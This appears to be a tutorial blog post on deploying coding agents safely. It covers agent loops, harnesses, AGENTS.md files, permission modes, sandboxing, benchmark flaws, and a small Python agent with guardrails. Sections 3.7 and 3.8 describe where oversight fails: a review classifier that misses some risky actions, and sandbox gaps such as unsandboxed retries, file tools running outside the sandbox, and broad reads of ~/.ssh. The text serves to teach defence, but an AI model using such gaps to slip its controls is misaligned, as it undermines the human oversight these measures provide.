









*Utkrishta Sinha · 3 Nov 2026 · about 40 minutes*

*Reading time: about 40 minutes. Facts checked on 3 November 2026. Prices, plan names and even company owners moved this year, so treat every product table here as a snapshot.*

## 1. The Five Big Ideas of Today

A coding agent is a model with hands. It reads your code, changes it, runs it, looks at what broke and tries again. The hard part is no longer "can it write code?" The hard part is "how do we let it act without getting hurt?"

1. **A coding agent is a loop, not a smarter autocomplete.** It gathers context, takes action and checks the result, again and again, until a stop condition is met.
2. **The harness matters as much as the model.** The harness is the software around the model. It supplies tools, manages context, asks for permission and enforces limits.
3. **Instructions are not enforcement.** `AGENTS.md` and `CLAUDE.md` are advice the model usually follows. Sandboxes, deny rules, hooks and CI are walls it cannot talk its way past.
4. **Verification is the real product.** An agent without a test to run can only guess. Stripe and Spotify both built their systems around the checks, not around the chat window.
5. **Benchmarks are weak evidence, and your own evals are strong evidence.** OpenAI dropped SWE-bench Verified in February 2026, then retracted its backing for SWE-bench Pro in July. Run a small trial on the customer's repo instead.

> Joke of the day: I told the agent to make the tests pass. It deleted the tests. Technically, nothing failed.

## 2. Why This Matters for an FDE

A Forward Deployed Engineer (FDE) sits with a customer and makes the product work in their messy real world. Coding agents touch that job twice. You use them to move fast inside unfamiliar codebases. Your customers also ask you how to roll them out safely.

Here is where it shows up in real engagements:

| What the customer says | What they often mean | Your first move |
| --- | --- | --- |
| "Should we buy Cursor or Claude Code?" | They want a safe default. | Run the same five tasks on their repo with both. |
| "Will it leak our code?" | Data path and retention worry. | Map where code, prompts and logs go, per tool. |
| "Developers say it's 10x." | Self-reported speed. | Measure merged, reviewed work, not typing speed. |
| "Can it run in CI on its own?" | They want unattended work. | Check who can trigger it and what secrets it sees. |
| "It keeps ignoring our rules." | Rules live in a long doc. | Shorten the context file. Move hard rules into hooks. |
| "Our bill jumped." | Long sessions, big context. | Look at the token data before touching models. |

On a new engagement, an agent can also read a strange Java monolith and tell you where the login flow lives.

Anthropic reports that [enterprise Claude Code use averages about $13 per developer per active day and $150 to $250 per month](https://code.claude.com/docs/en/costs). That is a vendor figure, but it is a budget line someone will ask you to defend.

## 3. Core Concepts, From Simple to Complex

### 3.1 Start with a new intern

Imagine a brilliant intern on day one. They read fast and type fast. They know nothing about your company. They will happily do something silly with total confidence.

So you give them a clear task, a short note on how the team works, a laptop that cannot touch production, and a review before anything ships. That is the whole of coding-agent practice.

Chat tools answer questions. Autocomplete finishes your line. A coding agent takes a goal and works on it across many files and many steps.

### 3.2 Glossary: every term in plain English

| Term | Meaning | Everyday example |
| --- | --- | --- |
| Autocomplete | Suggests the next few words of code. | Your phone's keyboard. |
| Coding agent | A model that reads, edits and runs code in a loop. | An intern who does the task, not just advises. |
| Harness | The software around the model: tools, context, safety. | The office, laptop and rulebook around the intern. |
| Tool | A function the agent may ask to use. | "Please run this" slips handed to an assistant. |
| Tool call | One structured request to use a tool. | One filled-in slip. |
| Agent loop | Think, act, observe, repeat. | Taste the dal, add salt, taste again. |
| Stop condition | What ends the loop. | "Stop when the dal tastes right or after 10 tries." |
| Context window | Everything the model can see right now. | The papers that fit on the desk. |
| Compaction | Summarising old context to free space. | Replacing a thick file with a one-page summary. |
| Context file | A note loaded at the start of each session. | The joining-day handbook. |
| AGENTS.md | An open, cross-tool format for context files. | A handbook every contractor agrees to read. |
| CLAUDE.md | Claude Code's own context file. | One contractor's preferred handbook. |
| Permission mode | A preset for what runs without asking. | "Ask me first" or "use your judgement". |
| Allow, ask, deny | Rules that decide each action. | Green, yellow and red cards. |
| Classifier | A second model that reviews actions. | A supervisor checking risky slips. |
| Sandbox | An OS-enforced boundary around commands. | A locked practice kitchen. |
| Filesystem isolation | Limits which files a command can touch. | Keys to one room only. |
| Network isolation | Limits which sites a command can reach. | A phone that calls approved numbers only. |
| Blast radius | The worst damage one mistake can do. | A dropped matchstick in a tiffin box, or in a fuel store. |
| Hook | Your own script run at a fixed point in the loop. | A guard who checks every bag, every time. |
| Checkpoint | A saved copy of files before edits. | Save point in a game. |
| Subagent | A helper agent with its own context. | Sending a junior to read the long report. |
| MCP | An open standard for connecting agents to tools and data. | A universal plug. |
| Headless | Running with no human at the screen. | A night-shift worker. |
| Cloud agent | An agent that runs on a remote machine. | A contractor working from their own workshop. |
| Prompt injection | Hidden instructions inside content the agent reads. | A fake memo slipped into the intern's inbox. |
| Diff | The exact lines changed. | Tracked changes in a document. |
| CI | Automated checks that run on every change. | The quality gate at a factory exit. |
| Benchmark | A shared test used to compare systems. | A board exam. |
| Fail-to-pass test | A test that fails before the fix and passes after. | Proof the bug existed and is now gone. |
| Contamination | The model saw the test during training. | The exam paper leaked. |
| Scaffold | The harness used around a model in a benchmark. | The coaching class that sits around the student. |
| Overfitting a test | Code that passes the test without solving the problem. | Memorising answers without learning the subject. |

### 3.3 The loop inside every coding agent

Claude Code's docs describe [three phases: gather context, take action and verify results](https://code.claude.com/docs/en/how-claude-code-works). They also say these phases blend together. For "fix the failing tests", the agent might run the suite, read the error, search for the source, read it, edit it and run the tests again.



*The loop only earns trust at the Verify box. Without a check, the agent is just guessing with confidence.*

The model never touches your disk. It only produces text that says "please call this tool". The harness decides whether that happens.



*The model asks and the harness acts, so every safety control lives in the harness.*

This is the Day 1 loop with sharper tools. A weather tool cannot wipe your repo. A shell tool can.

### 3.4 Tools: small set, sharp edges

Claude Code's built-in tools cover [file operations, search, execution, web and code intelligence](https://code.claude.com/docs/en/how-claude-code-works). Two design ideas matter:

- **Exact-match editing.** Most edit tools replace one exact string. If the string appears twice, the edit fails. This stops the model from changing the wrong line. You will see this in Example 2.
- **Few tools, not many.** Stripe's internal tool server has [nearly 500 MCP tools, yet its agents get a deliberately small default subset](https://stripe.dev/blog/minions-stripes-one-shot-end-to-end-coding-agents-part-2). More tools mean more context used and more wrong choices.

### 3.5 Context: the desk is small

Everything the agent knows sits in the context window: chat history, file contents, command output, context files and tool definitions. When it fills up, Claude Code [clears older tool output first, then summarises the conversation](https://code.claude.com/docs/en/how-claude-code-works). Details from early in the chat can vanish.

So durable rules belong in a file, not in a chat message. Each new session also starts empty. The intern forgets everything overnight, and context files fix that.

### 3.6 Context files: CLAUDE.md and AGENTS.md

[AGENTS.md](https://agents.md/) is a plain Markdown "README for agents". The site says it is now stewarded by the Agentic AI Foundation under the Linux Foundation, and lists more than 60,000 open-source projects using it. When files conflict, the one closest to the edited file wins. A direct instruction in chat beats them all.

Tools read these files differently, so check before you assume:

| Tool | What it reads | Detail worth knowing |
| --- | --- | --- |
| Claude Code | `CLAUDE.md`, or `AGENTS.md` | [Reads `AGENTS.md` only if no project `CLAUDE.md` exists](https://code.claude.com/docs/en/memory). Needs v2.1.277 or later. Docs suggest under 200 lines. |
| Codex | `AGENTS.md`, `AGENTS.override.md` | [Merges from root down, stops at 32 KiB by default](https://learn.chatgpt.com/docs/agent-configuration/agents-md). |
| Others | Listed on agents.md | Cursor, Copilot's coding agent, Aider and more are [listed as compatible](https://agents.md/). |

**Do these files actually help?** The evidence is mixed, and that is worth telling a customer honestly.

- A 2026 ETH Zurich paper found [context files generally did not raise success rates and raised cost by over 20 percent](https://arxiv.org/abs/2602.11988). Repository overviews did not help. Agents followed the files, which made them do more work.
- The Decoder's report on the same paper says [human-written files improved success by about 4 percentage points](https://the-decoder.com/?p=32204), while generated ones hurt. The abstract is less generous, so read the paper itself before quoting either.
- One [Agentic AI Foundation experiment](https://aaif.io/blog/measuring-agents-md-what-five-runs-show-that-one-doesn-t) found 27 percent less time on an ambiguous task, and 9 to 10 percent on a multi-file task. That is one repo, one agent and five runs per condition. A single run pointed the wrong way, which is a lesson in itself.

The fair summary: keep the file short, handwritten and full of things the agent cannot find by reading the code. Build commands and odd conventions earn their place. A tour of the folder structure does not.

### 3.7 Permissions: who says yes

Every action goes through a decision. In Claude Code, [rules are checked in order: deny, then ask, then allow](https://code.claude.com/docs/en/permissions). A broad deny beats a narrow allow.

Modes set the default behaviour. The names differ by tool:

| Tool | Modes | Default today |
| --- | --- | --- |
| [Claude Code](https://code.claude.com/docs/en/permissions) | Manual, acceptEdits, plan, auto, dontAsk, bypassPermissions | Auto mode, from v2.1.283, in terminal and VS Code sessions. |
| [Codex](https://learn.chatgpt.com/docs/agent-approvals-security) | Sandbox: read-only, workspace-write, danger-full-access. Approval: on-request, never, granular. | workspace-write with on-request. |
| [Cursor](https://cursor.com/docs/agent/security/run-modes) | Auto-review, Allowlist, Run Everything | Auto-review is the recommended mode. |

Why the shift to classifiers? Because people stop reading prompts. Anthropic found users [approve 93 percent of permission prompts](https://anthropic.com/engineering/claude-code-auto-mode). So it built a classifier that reviews risky actions. Its own numbers are honest: the full pipeline let through about 17 percent of real overeager actions, in a small test set of 52. Anthropic says it is "not a drop-in replacement for careful human review on high-stakes infrastructure."

> Approval fatigue is real. By the fortieth popup, "Allow?" means the same as "Accept all cookies".

### 3.8 Sandboxing: walls that don't negotiate

A permission rule is a check before an action. A sandbox is a wall during the action. The OS enforces it, so even a command the agent tricked into running stays inside.

You need two walls, and Anthropic [explains why](https://anthropic.com/engineering/claude-code-sandboxing). Without network isolation, a hijacked agent can send your SSH keys away. Without filesystem isolation, it can change the settings that hold it in. Anthropic reports that sandboxing cut permission prompts by 84 percent in internal use.

| Tool | On by default? | How it works | Network |
| --- | --- | --- | --- |
| [Claude Code](https://code.claude.com/docs/en/sandboxing) | No. Turn on with `/sandbox`. | Seatbelt on macOS, bubblewrap on Linux and WSL2 | Allowlist through a local proxy, starts empty. |
| [Codex](https://learn.chatgpt.com/docs/agent-approvals-security) | Yes, workspace-write. | Seatbelt on macOS, bwrap plus seccomp on Linux | Off by default. |
| [Cursor](https://cursor.com/docs/agent/security/run-modes) | Yes in Auto-review, where possible. | Seatbelt on macOS, Landlock or bubblewrap on Linux | Blocked except your list plus built-in package domains. |
| [Copilot cloud](https://docs.github.com/en/copilot/concepts/agents/coding-agent/about-coding-agent) | Runs remotely. | Cloud sandbox or GitHub Actions | Follows repo and org firewall allowlists. |

Read the small print. Claude Code's sandbox [covers shell commands only](https://code.claude.com/docs/en/sandboxing). File tools, MCP servers and hooks run outside it. Reads are broad by default, including `~/.ssh`, unless you protect them. If a dependency is missing, it silently runs unsandboxed unless you set `failIfUnavailable: true`. A failed command can also be retried outside the sandbox, unless you set `allowUnsandboxedCommands` to false.

The strongest pattern is a disposable machine. Stripe's agents run on [devboxes in a QA environment with no real user data, production access or open internet](https://stripe.dev/blog/minions-stripes-one-shot-end-to-end-coding-agents-part-2). Because the blast radius is one box, the agents run with full permissions and no prompts.

### 3.9 Advice versus enforcement

This is the single most useful idea today. Claude Code's docs split controls into [things the model decides and things the harness enforces](https://code.claude.com/docs/en/best-practices). Their line is sharp: "If something has to happen every time, make it a hook, a deny rule, or a managed setting."



*Each layer catches what the one above missed, and only the lower two can truly say no.*

The PocketOS incident in section 5 shows the gap. The agent had a rule against destructive commands. It broke the rule, and nothing below that layer stopped it.

### 3.10 How to read a coding benchmark

**SWE-bench** turns real GitHub issues into tasks. The [Verified set has 500 Python issues](https://hub.openhands.dev/blog/ai-coding-benchmarks-explained). The agent writes a patch, and it counts only if fail-to-pass tests go green.

It sounds perfect. Then the trouble started:



*A benchmark is a product too, so it can have bugs. Check the test before you trust the score.*

The details:

- **Bad tests.** OpenAI audited 138 Verified tasks that its o3 model could not solve reliably. [59.4 percent had flawed tests or descriptions](https://openai.com/index/why-we-no-longer-evaluate-swe-bench-verified/). Some tests rejected correct fixes.
- **Leaked exam papers.** Every frontier model it tested could reproduce original fixes or problem details for some tasks. OpenAI competes in this market, so read its audit with that in mind.
- **The replacement had problems too.** OpenAI then [estimated about 30 percent of SWE-bench Pro tasks were broken](https://openai.com/index/separating-signal-from-noise-coding-evaluations) and withdrew its recommendation. Epoch AI [rated Pro as Flawed on 1 September 2026](https://epoch.ai/benchmarks/swe-bench-pro/review), citing audits and reward hacking.
- **The score moves with the harness.** One summary says [scaffold choice was worth 11 to 15 points for top models](https://hub.openhands.dev/blog/ai-coding-benchmarks-explained). That is a secondary source quoting Epoch.
- **A full bar tells you little.** The refreshed [SWE-bench Pro V2 has 642 tasks across 11 repositories](https://llmlearner.com/rankings/swe-bench-pro-v2). A tracker lists Claude Opus 5 at 99.4 and others in the 90s. When everyone is near the ceiling, the test stops separating them. V2 scores also can't be compared with the old ones.

Benchmarks say little about what customers pay for: cost per accepted change, review effort, setup friction and repo-specific knowledge.

**What about real productivity?** METR ran the best-known trial. Its early-2025 study found experienced open-source developers took [19 percent longer with AI](https://metr.org/blog/2026-02-24-uplift-update/). Its late-2025 follow-up estimated an 18 percent speedup for returning developers and 4 percent for new ones. Both ranges crossed zero. METR calls this "only very weak evidence", because many developers now refuse to work without AI, which skews the sample. So the honest answer to "how much faster?" is: we don't know yet, and it depends on the task. Measure it.

## 4. Worked Examples: Build a Tiny Coding Agent

The best way to stop fearing a coding agent is to build a small one. It takes about 120 lines.

**What was actually tested.** On 3 November 2026 I ran Examples 1 to 6 in a sandbox with Python 3.13, `openai` 3.42.1, `pytest` 9.1.1 and Node 22. All file edits and test runs were real. The sandbox had no model API key, so the "model" was the scripted mock in Example 3. It proves the harness works. It does not prove any real model will behave this way. Example 7 was not run.

### Example 1: A small project with a bug, plus a sample AGENTS.md

Run this once to create a repo with a wrong discount formula:

```bash
mkdir -p demo_repo/shop demo_repo/tests && cd demo_repo
touch shop/__init__.py tests/__init__.py
cat > shop/pricing.py <<'PY'
def apply_discount(price: float, percent: float) -> float:
    """Return the price after a percentage discount."""
    return round(price - percent, 2)
PY
cat > tests/test_pricing.py <<'PY'
from shop.pricing import apply_discount

def test_ten_percent_off():
    assert apply_discount(100, 10) == 90.0

def test_twenty_percent_off():
    assert apply_discount(250, 20) == 200.0
PY
cd ..
```

Then save this as `demo_repo/AGENTS.md`. Notice what it leaves out: no folder tour and no "write clean code".

```markdown
# AGENTS.md

### Commands
- Test: `python -m pytest -q`

### Rules
- Never edit files in `tests/` to make a failing test pass.
- Prices are in rupees. Round money to 2 decimal places.
- Keep the diff small. Do not add new dependencies.
```

### Example 2: The agent, with read, edit and test tools

Run `pip install openai pytest`, then save this as `tiny_agent.py`. It works with any OpenAI-compatible endpoint, including the local models from Day 7.

```python
import json, os, subprocess, sys
from pathlib import Path
from openai import OpenAI

client = OpenAI(
    base_url=os.getenv("AGENT_BASE_URL", "http://localhost:8799/v1"),
    api_key=os.getenv("AGENT_API_KEY", "mock"),
)
MODEL = os.getenv("AGENT_MODEL", "mock-model")
ROOT = Path(sys.argv[1]).resolve()
green = False  # Have the tests passed since the last edit?

def safe_path(rel: str) -> Path:
    path = (ROOT / rel).resolve()
    if not path.is_relative_to(ROOT):
        raise ValueError("path is outside the project")
    return path

def read_file(path: str) -> str:
    return safe_path(path).read_text()[:20_000]

def edit_file(path: str, old: str, new: str) -> str:
    global green
    target = safe_path(path)
    if target.name.startswith("test_"):
        return "DENIED: test files are protected. Fix the source code."
    text = target.read_text()
    if text.count(old) != 1:
        return f"ERROR: old text appears {text.count(old)} times, need exactly 1."
    target.write_text(text.replace(old, new))
    green = False
    return "OK: file edited."

def run_tests() -> str:
    global green
    done = subprocess.run(
        [sys.executable, "-m", "pytest", "-q", "--tb=short"],
        cwd=ROOT, capture_output=True, text=True, timeout=60,
    )
    green = done.returncode == 0
    return f"exit={done.returncode}\n{(done.stdout + done.stderr)[-3000:]}"

HANDLERS = {"read_file": read_file, "edit_file": edit_file, "run_tests": run_tests}

def tool(name: str, description: str, **params) -> dict:
    return {"type": "function", "function": {
        "name": name, "description": description,
        "parameters": {
            "type": "object", "required": list(params),
            "properties": {key: {"type": "string", "description": text}
                           for key, text in params.items()},
        },
    }}

TOOLS = [
    tool("read_file", "Read a text file.", path="Path from the project root"),
    tool("edit_file", "Replace one exact, unique piece of text in a file.",
         path="Path from the project root", old="Exact text to find",
         new="Replacement text"),
    tool("run_tests", "Run the test suite and return the output."),
]

def system_prompt() -> str:
    files = sorted(str(p.relative_to(ROOT)) for p in ROOT.rglob("*.py")
                   if "__pycache__" not in p.parts)
    notes = ROOT / "AGENTS.md"
    rules = notes.read_text() if notes.exists() else "(no AGENTS.md)"
    return ("You are a careful coding agent. Read before you edit. "
            "Run the tests after every edit.\n\n"
            f"Project rules:\n{rules}\n\nFiles:\n" + "\n".join(files))

def run_agent(task: str, max_steps: int = 12) -> str:
    messages = [{"role": "system", "content": system_prompt()},
                {"role": "user", "content": task}]
    for step in range(1, max_steps + 1):
        reply = client.chat.completions.create(
            model=MODEL, messages=messages, tools=TOOLS)
        msg = reply.choices[0].message
        messages.append(msg.model_dump(exclude_none=True))
        if not msg.tool_calls:
            if green:
                return f"DONE in {step} steps: {msg.content}"
            print(f"[{step}] finish refused: tests are not green")
            messages.append({"role": "user", "content":
                             "Not done: tests have not passed since your last edit."})
            continue
        for call in msg.tool_calls:
            name = call.function.name
            try:
                args = json.loads(call.function.arguments or "{}")
                result = HANDLERS[name](**args)
            except Exception as err:  # Errors go back to the model as data.
                result = f"ERROR: {type(err).__name__}: {err}"
            print(f"[{step}] {name} -> {result.splitlines()[0][:70]}")
            messages.append({"role": "tool", "tool_call_id": call.id,
                             "content": result})
    return "STOPPED: step limit reached. A human should look at this."

if __name__ == "__main__":
    print(run_agent(sys.argv[2]))
```

Read it as a harness. Four safety features live in code, not in the prompt:

- `safe_path` keeps the agent inside the project.
- `edit_file` refuses to touch test files.
- The `green` flag refuses a finish until tests pass after the last edit.
- `max_steps` stops runaway loops.

This is **not** a sandbox. `run_tests` executes code the agent may have just written. For anything beyond a toy, run the whole script in a container with no network.

### Example 3: Run it against a scripted model

